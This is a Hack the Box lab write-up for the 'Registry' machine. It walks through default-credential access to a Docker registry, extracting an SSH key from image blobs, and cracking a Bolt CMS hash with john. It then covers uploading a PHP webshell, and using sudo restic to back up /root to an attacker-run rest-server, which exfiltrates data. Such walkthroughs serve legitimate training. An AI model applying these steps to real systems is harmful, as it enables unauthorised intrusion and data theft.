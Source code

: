 +++
author = "Nick"
categories = ["hack the box", "Linux", "Hard", "docker", "bolt cms", "reverse shell", "john", "port forwarding", "restic"]
date = 2020-04-04T10:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/04/registry.png"
slug = "hack-the-box-registry"
summary = "Welcome back! Today we are going to be doing the Hack the Box machine - Registry. This machine is listed as a Hard linux box. Let's jump in!"
tags = ["hack the box", "Linux", "Hard", "docker", "bolt cms", "reverse shell", "john", "port forwarding", "restic"]
title = "Hack the Box - Registry"
url = "/hack-the-box-registry"

+++


Welcome back! Today we are going to be doing the Hack the Box machine - Registry. This machine is listed as a Hard linux box. Let's jump in!

As usual, we kick it off with our `nmap`: `nmap -sC -sV -p- -oA allscan 10.10.10.159`

Here are the results:
```
Nmap scan report for 10.10.10.159
Host is up (0.12s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d4:8d:da:ff:9b:94:2a:ee:55:0c:04:30:71:88:93 (RSA)
|   256 c7:40:d0:0e:e4:97:4a:4f:f9:fb:b2:0b:33:99:48:6d (ECDSA)
|_  256 78:34:80:14:a1:3d:56:12:b4:0a:98:1f:e6:b4:e8:93 (ED25519)
80/tcp  open  http     nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp open  ssl/http nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=docker.registry.htb
| Not valid before: 2019-05-06T21:14:35
|_Not valid after:  2029-05-03T21:14:35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have quite a list of results. We're going to want to add `registry.htb` as well as `docker.registry.htb` to our host file. When we browse to that location, we don't have anything being shown. We'll enumerate a bit with `gobuster`.

Command:
`gobuster dir -u registry.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50`



We immediately see a directory called `v2`. Let's head over to that and see what's there. We are immediately prompted for credentials. We try some standard credentials like admin / admin and we get in. 

Now that we've authenticated, we are given what seems to be an API endpoint. Sure enough, it is the docker API endpoint. There is some documentation for that [here](https://docs.docker.com/registry/spec/api/).

According to the docks we can see available repositories by send a `GET` to `/v2/_catalog`.

![](/images/2020/04/image-19.png" caption="From the Docker documentation)

So, let's `curl` it and see what comes back (Note you can just browse to this URL as well).

Command:
`curl --user "admin:admin" docker.registry.htb/v2/_catalog`

![](/images/2020/04/image-20.png)

We see one repo named `bolt-image`. Cool, now that we have an image being used, let's get it's manifest. For those unaware of Docker and how it functions, a manifest is just like it sounds. A listing of docker related data about the image being used. You can read more on the Docker manifest [here](https://docs.docker.com/engine/reference/commandline/manifest/).

Command:
`curl --user "admin:admin" docker.registry.htb/v2/bolt-image/manifests/latest > bolt.manifest`

We now have a bunch of data about the docker image. Now we see a large listing of `blogSum`s. These are essentially zipped digests. So we'll download each of them, give them the `.tar.gz` extension and then unzip them to see what is inside. Here's a quick .sh I put together:
```bash
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b -O 1.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee -O 2.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7 -O 3.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791 -O 4.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4 -O 5.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0 -O 6.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a -O 7.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797 -O 8.tar.gz
wget --http-user=admin --http-password=admin http://docker.registry.htb/v2/bolt-image/blobs/sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff -O 9.tar.gz
```

We finally find one with some data in!

![](/images/2020/04/image-21.png)

Inside we have a shell file with the password to an `SSH` key.

![](/images/2020/04/image-22.png)

Inside another, we have the key itself.

![](/images/2020/04/image-23.png)

Inside the `config` file we also get a username to connect with.

![](/images/2020/04/image-24.png)

Now we can `SSH` into the machine and with some luck snag our user key!

Command:
`ssh -i id_rsa bolt@10.10.10.159`

![](/images/2020/04/image-26.png)

Awesome, we have our `user.txt` flag. Let's start enumerating and looking for a path to root!

We know from the `gobuster` enumeration that there is a directory called /bolt/ (as well as from our blob downloads). When we browse ot it we are met with a basic install of the [Bolt CMS](https://bolt.cm/). So we manually enumerate the site a bit but find nothing too useful.

We head back to our `SSH` shell and look around the bolt directory. We find a file called `bolt.db` in the bolt app location.

![](/images/2020/04/image-27.png)

If we `cat` this file we see this within it.

![](/images/2020/04/image-29.png)

That is indeed the hash for the admin account. We'll save it to a file called `admin.hash` and send it to `john` to crack.

Command:
`john --wordlist=/usr/share/wordlist/rockyou.txt admin.hash`

![](/images/2020/04/adminhash_registry.gif)

We get a password of `strawberry` back. So now that we have an admin password to the application, let's log in: `http://registry.htb/bolt/bolt/login`

Once we're in we look around internally as well as some googling for bolt cms exploits. We find a few but none seem to work. Some more [research shows](https://fgsec.net/from-csrf-to-rce-bolt-cms/) that we can append file types to our allowed uploads. We can append the `.php` extension and give ourselves a webshell.

So we head over to Configuration > Main Configuration and look for the `accepted_file_types` line.

![](/images/2020/04/image-30.png)

Now we add `.php` to the list. Then we head over to File Management tab and upload our own shell. This all needs to be done quickly. It seems that the setting get reset every 2 mins or so?

So we upload our shell and navigate to it and execute our command for a netcat listener.

We then connect to the target for our shell.

![](/images/2020/04/image-31.png)

Once we're in we start some manual enumeration and get `linpeas` onto the system. Our first check of our permission shows that we can run `restic` as sudo.

![](/images/2020/04/image-32.png)

I don't even know what the software is, so we do more googling. Turns out it's a backup application. Reading through the documentation it seems the calls are all local, meaning we'll need to forward our ports at some point. First let's install the application. The application is actually in the standard repo, so we can use `apt install restic` and be good.

After it's installed we need to initialize the repo:
`restic init -r .reg`

Next, we need to start the server. We can download the precompiled binaries [here](https://github.com/restic/rest-server/releases):
`rest-server --path .reg`

![](/images/2020/04/image-33.png)

Now that those parts are setup. We need to forward our ports in order to pass our commands.

Command:
`ssh -i ~/HTB/Registry/root/.ssh/id_rsa 8000:localhost:8000 bolt@10.10.10.159`

![](/images/2020/04/image-34.png)

Now we can issue the sync command from the `www-data` shell:
`sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root`

![](/images/2020/04/image-35.png)

We will now see our `.reg` location filled with data from the backup.

![](/images/2020/04/image-36.png)

This isn't exactly what we want. Although I'm sure we could dig through the snapshot file, we want to sync the `root.txt` flag. So we can issue the same basic command as above but to specify the `root.txt` file:

Command:
`sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root/root.txt`

![](/images/2020/04/image-37.png)

Now that we've copied that file back, we need to decrypt it using the `restore` function of `restic`. We need to go back a level because this will not work from within the repo.

Command:
`restic -r .reg restore latest --target restored`

![](/images/2020/04/rootregistry.gif)

There we have it, our `root.txt` flag! Also, I should note that restoring the snapshot file was not complicated and did it the second time through the box for this blog. Here are the steps.

We navigate to our snapshot directory and issue the following:

`restic restore $SNAPSHOTID --target /root/Desktop -r /root/Desktop/$directory`

The items with a `$` are variables you'd set because the snapshot ID's and locations will be different for each run.

Hopefully something was learned during this machine. If you found this write-up helpful, consider sending some respect my way: [My HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).



